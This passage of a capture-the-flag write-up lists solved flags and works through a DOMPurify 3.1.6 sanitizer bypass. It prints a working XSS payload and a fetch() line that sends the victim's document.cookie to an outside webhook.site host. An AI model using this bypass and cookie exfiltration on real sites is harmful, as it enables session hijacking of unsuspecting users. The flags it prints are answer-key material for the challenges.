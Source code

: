 ![image](https://hackmd.io/_uploads/H10Fbiilye.png)

![image](https://hackmd.io/_uploads/HkK5xsig1g.png)


```
ISITDTU{N0W_y0u_kn0w_h0w_T0_m4k3_1t_r3Fl3ct3d!!}
```

### X Éc Éc
![image](https://hackmd.io/_uploads/S15h6cigkx.png)


The version used is DOMPurify 3.1.6., in this tweet https://x.com/kinugawamasato/status/1843687909431582830 the payload has been fixed in DOMPurify version 3.1.7.

=> This is most likely the solution payload

Tried and successfully triggered XSS
![image](https://hackmd.io/_uploads/rJhSZojgkg.png)
```!
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=alert(document.domain)>">
```

Upgraded payload a bit for easier use

```!
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=eval(atob('base 64 payload'))>">
```

And encode base64 this js script


```js
fetch('https://webhook.site/0139531b-9559-42d0-a71a-b43e039822c2?cookie=' + encodeURIComponent(document.cookie))
```

Save note and submit link for bot -> get the flag

![image](https://hackmd.io/_uploads/Sy6rGjig1l.png)

```
ISITDTU{d364c13b91d3bd0ecb3ffed49b229fc06b1208e8}
```

### S1mple
![image](https://hackmd.io/_uploads/rJSk0qig1e.png)

```dockerfile
FROM servertest2008/simplehttpserver:1.4

EXPOSE 80
RUN echo "flag_here" > /.htpasswd
CMD ["/bin/bash", "/start.sh"]
```
